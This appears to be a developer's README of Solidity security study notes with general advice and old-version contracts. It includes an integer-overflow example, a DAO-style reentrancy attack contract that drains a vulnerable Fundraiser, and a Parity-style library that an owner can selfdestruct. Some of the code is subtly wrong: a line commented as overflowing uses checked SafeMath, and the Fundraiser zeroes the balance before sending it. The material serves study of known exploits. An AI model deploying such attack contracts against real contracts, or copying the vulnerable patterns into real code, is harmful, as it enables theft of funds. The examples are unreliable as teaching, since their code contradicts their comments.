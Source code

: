 # Saula-Atama

Software Develpment Projects\
Fantasy Football


BlockChain
Multi Sig Wallet
Decentralised Exchange
Coin Tracker
Voting.
Token, Trading bot
build a DEX, kitty, e-commerce, NFT and Dapp game marketplace for gamers, Chainlink. 


// KEEP IT SIMPLE , WHEN CODING SMART CONTRACT... I CANNOT EMPASIS HOW IMPORTANT IT IS FOR YOUR CODE TO BE SIMPLE, AND NOT COMPLEX BECAUSE OF LIBRARYS GETTING NUKED, OR PUBLIC FUCTION HAVING MULTIPLE ATTACKS ON IT FROM EXTERNAL FUCNTIONS.

// one way of getting AROUND SMART CONTRACTS immutability is using upgardeability and thats using a proxy contract on the side, kind like a new block or of code just needs to be wired up
// When dealing with Upgradeability as well the proxy and storage page or blocks remain, the function page or block will be removed and a new Func page can be added.

// The basis of security checks for any solidity smart contract is CHECKS-EFFECTS-INTERACTIONS Pattern.

pragma solidity ^0.4.10;

import "./SafeMath.sol";

contract Overflow{

    mapping (address=>uint) balances;

    function contribute() payable{
        balances[msg.sender] = msg.value;
    }

    function getBalance() constant returns (uint){
        return balances[msg.sender];
    }

    function batchSend(address[] _receivers, uint _value){
        // this line overflows
        uint total = SafeMath.mul(_receivers.length, _value);
        require(balances[msg.sender]>=total);

        // subtract from sender
        balances[msg.sender] = SafeMath.sub(balances[msg.sender], total);

        for(uint i=0;i<_receivers.length;i++){
            balances[_receivers[i]] = SafeMath.add(balances[_receivers[i]], _value);
        }
    }

}






pragma solidity ^0.4.10;

library SafeMath {

  function mul(uint256 a, uint256 b) internal constant returns (uint256) {
    uint256 c = a * b;
    assert(a == 0 || c / a == b);
    return c;
  }

  function div(uint256 a, uint256 b) internal constant returns (uint256) {
    // assert(b > 0); // Solidity automatically throws when dividing by 0
    uint256 c = a / b;
    //assert(a == b * c + a % b); // There is no case in which this doesn't hold
    return c;
  }

  function sub(uint256 a, uint256 b) internal constant returns (uint256) {
    assert(b <= a);
    return a - b;
  }

  function add(uint256 a, uint256 b) internal constant returns (uint256) {
    uint256 c = a + b;
    assert(c >= a);
    return c;
  }
}



REPLICATING THE DAO ATTACK
pragma solidity ^0.4.8;


contract Fundraiser{
    
    mapping  (address => uint) balances;
    
    function contribute() payable{
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(){
        if(balances[msg.sender] == 0){
            throw;
        }
        
        balances[msg.sender] = 0;
        msg.sender.call.value(balances[msg.sender])();
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
}





pragma solidity ^0.4.8;

import "./Fundraiser.sol";

contract Attacker{
    
    address public fundraiserAddress;
    uint public drainTimes = 0;
    
    function Attacker(address victimAddress){
        fundraiserAddress = victimAddress;
    }
 
    function() payable{
        if(drainTimes<3){
            drainTimes++;
            Fundraiser(fundraiserAddress).withdraw();
        }
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
    function payMe() payable{
        Fundraiser(fundraiserAddress).contribute.value(msg.value)();
    }
    
    function startScam(){
        Fundraiser(fundraiserAddress).withdraw();
    }
}
// what the attcker code does is that it keeps calling the function of the DAO without the DAO recording that it has called a refund.
// Coding smart contracts , keep it simple, a good contract is simple to read and written in a simple manner, adding complexiticity like adding libaries or dependencies in libraries will present vulnerablities to your smart contract, example in injecting malicious code, calling a public function with fallbacks. which will cause major damages.


Parity Freeze attack

pragma solidity ^0.4.8;
import "./Library.sol";

contract Fundraiser{
    
    Library lib = Library(0xbbf289d846208c16edc8474705c748aff07732db);
    
    mapping  (address => uint) balances;
    
    function contribute() payable{
        balances[msg.sender] += msg.value;
    }
    
    function withdraw(){
        //if(balances[msg.sender] == 0)
        if(lib.isNotPositive(balances[msg.sender])){
            throw;
        }
        
        balances[msg.sender] = 0;
        msg.sender.call.value(balances[msg.sender])();
    }
    
    function getFunds() returns (uint){
        return address(this).balance;
    }
    
}





pragma solidity ^0.4.8;

contract Library{
    
    address owner;
    
    function isNotPositive(uint number) returns (bool){
        if(number<=0){
            return true;
        }
        return false;
    }
    

    function destroy() public onlyOwner {
        selfdestruct(owner);
    }
    
    modifier onlyOwner {
        if(msg.sender != owner){
            throw;
        }
        _;
    }
    
    function initOwner(){
        if(owner==address(0)){
            owner = msg.sender;
        }
        else{
            throw;
        }
    }
    
}

The DAO hacker was the recursive refund function hack, the parity bug was when they nuked the library rendering the fuction unuseable.


